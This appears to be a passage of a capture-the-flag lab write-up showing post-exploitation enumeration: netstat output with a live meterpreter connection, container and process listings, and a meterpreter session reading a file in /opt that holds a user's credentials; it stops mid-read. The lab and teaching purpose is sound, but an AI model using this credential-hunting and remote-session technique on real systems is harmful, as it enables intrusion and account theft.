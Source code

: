 ```text
tcp        0      0 10.10.215.86:58660      10.10.253.137:4444      ESTABLISHED 6511/TOJWR          
tcp        0      0 10.10.215.86:55326      10.10.253.137:4433      ESTABLISHED 6511/TOJWR          
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 10.10.215.86:80         10.10.253.137:44196     ESTABLISHED -                   
tcp6       0      0 10.10.215.86:80         10.10.253.137:44286     TIME_WAIT   -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
udp        0      0 10.10.215.86:68         0.0.0.0:*                           - 
```

```bash
docker0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.17.0.1  netmask 255.255.0.0  broadcast 172.17.255.255
        inet6 fe80::42:d6ff:fe0f:a70e  prefixlen 64  scopeid 0x20<link>
        ether 02:42:d6:0f:a7:0e  txqueuelen 0  (Ethernet)
        RX packets 8  bytes 420 (420.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 19  bytes 1416 (1.4 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

```bash
================================( Processes, Cron, Services, Timers & Sockets )================================
[+] Cleaned processes
[i] Check weird & unexpected proceses run by root: https://book.hacktricks.xyz/linux-unix/privilege-escalation#processes
USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
aubrean+  1506  0.0  0.0   1148     4 ?        Ss   04:08   0:00 /sbin/tini -- /usr/local/bin/jenkins.sh
aubrean+  1540  0.5 12.1 2587808 248012 ?      Sl   04:08   0:27 java -Duser.home=/var/jenkins_home -Djenkins.model.Jenkins.slaveAgentPort=50000 -jar /usr/share/jenkins/jenkins.war  0.0  0.1  28332  2344 ?        Ss   04:08   0:00 /usr/sbin/atd -f
message+   909  0.0  0.2  50060  4664 ?        Ss   04:08   0:00 /usr/bin/dbus-daemon --system --address=systemd: --nofork --nopidfile --systemd-activation --syslog-onlyql     1099  0.2 11.2 1165848 229308 ?      Sl   04:08   0:14 /usr/sbin/mysqld --daemonize --pid-file=/run/mysqld/mysqld.pid
```

I decided to take a look in the `/var/jenkins_home/` directory to see if I could find any configuration for the jenkins host but found that it didn't exist, leading me to believe it running in a docker container. Similarly, I looked under `/etc/` and found nothing related to jenkins, finally I looked under `/opt/` and stumbled on a `/opt/wp-save.txt` file that netted a set of credentialls for the `aubreanna` user.

```bash
meterpreter > cd /opt
meterpreter > ls
Listing: /opt
=============

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
40711/rwx--x--x   4096  dir   2020-08-03 03:01:12 +0000  containerd
100644/rw-r--r--  138   fil   2020-08-03 02:46:25 +0000  wp-save.txt

meterpreter > cat wp-save.txt
Bill,

```